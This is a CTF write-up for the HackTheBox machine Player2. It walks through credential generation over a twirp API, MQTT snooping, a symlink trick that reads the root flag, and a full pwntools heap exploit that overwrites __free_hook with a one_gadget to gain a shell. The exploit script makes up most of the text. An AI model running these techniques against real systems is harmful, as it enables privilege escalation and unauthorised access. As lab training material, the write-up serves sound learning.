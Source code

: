 ```yaml
---
categories:
- CTF
image:
  path: https://img.youtube.com/vi/u_GkIzCmU90/0.jpg
layout: post
media_subpath: /assets/posts/2020-06-27-player2-hackthebox
tags:
- binary exploitation
- firmware
- heap
- mosquitto
- mqtt
- totp
- twirp
title: Player2 @ HackTheBox
---
```


Player2 is a 50-point Linux machine on HackTheBox. For user we do some web fuzzing, call a twirp method to get credentials, find hidden backup totp codes, and then bypass a signature check on a firmware sample we can upload. Finally, subscribe to the running Mosquitto MQTT service to find a SSH private key. For Root there is an unintended way to use MQTT to leak the root flag or a Heap Exploit.

{% youtube u_GkIzCmU90 %}

## Notes

**Get Credentials**

```
curl --request "POST" --location "http://player2.htb:8545/twirp/twirp.player2.auth.Auth/GenCreds" --header "Content-Type:application/json" --data '{"number": 1}' --verbose 
```

**Mosquitto Sub**

```
mosquitto_sub -h 127.0.0.1 -v -t '$SYS/#' 
```

**Unintended Root (as observer)**

```
mv id_rsa id_rsa.bak
ln -s /root/root.txt id_rsa
```

The [Heap Exploit](https://gist.github.com/xct/257b83cbaba499643b331036ace8398b):

```python
#!/usr/bin/python
from pwn import *
import random
import string
import time

# Author: xct

def create_config(p, name='xct', desc_size=0, desc=''):
    p.recvuntil('protobs@player2:~$')
    p.sendline('2')
    p.recvuntil(']:')
    p.sendline(name)
    p.recvuntil(']:')
    p.sendline('')
    p.recvuntil(']:')
    p.sendline('')
    p.recvuntil(']:')
    p.sendline('')
    p.recvuntil(']:')
    p.sendline('')
    p.recvuntil(']:')
    p.sendline('')
    p.recvuntil(']:') 
    p.sendline(str(desc_size))
    p.recvuntil(']:')
    p.send(desc)


def delete_config(p, index):
    p.recvuntil('protobs@player2:~$')
    p.sendline('4')
    p.recvuntil(']:')
    p.sendline(str(index))


def read_config(p, index):
    p.recvuntil('protobs@player2:~$')
    p.sendline('3')
    p.recvuntil(']:')
    p.sendline(str(index))


context.arch = 'amd64'
context.log_level = 'debug'
libc = ELF('./libc.so.6')
main = ELF('./Protobs')

BASE_OFFSET = 0x1EB9a8 
FREE_HOOK = 0x1E75A8
ONE_GADGET =  0xe2383

s =  ssh(host='10.10.10.170', user='observer', keyfile='observer.key')
p = s.run('/opt/Configuration_Utility/Protobs')

create_config(p, desc_size=72, desc='A'*64)
read_config(p, 0)
p.recvuntil("A"*(64))
leak = p.recvline()[:-1]
leak += b"\x00\x00"
leak = u64(leak)
base = leak-BASE_OFFSET
log.success('Leak: ' +hex(leak))
log.success('Libc-Base: '+hex(base))
idx = 1


create_config(p, desc_size=0x68, name='BBBB', desc='B'*(0x68)) #1
create_config(p, desc_size=0x68, name='CCCC', desc='C'*(0x68)) #2
create_config(p, desc_size=0x38, name='DDDD', desc='D'*(0x38)) #3
create_config(p, desc_size=0x20, name='ZZZZ', desc='Z'*(0x20)) #4

delete_config(p, idx+2)
delete_config(p, idx+1)
create_config(p, desc_size=0x68, name=b'M'*0x68+b'N'*8+p64(base+FREE_HOOK), desc=b'P'*(0x20)) 
create_config(p, desc_size=0x38, name=p64(0xcafebabe), desc=p64(base+ONE_GADGET)) 
delete_config(p, 0)

p.interactive()
p.close()
```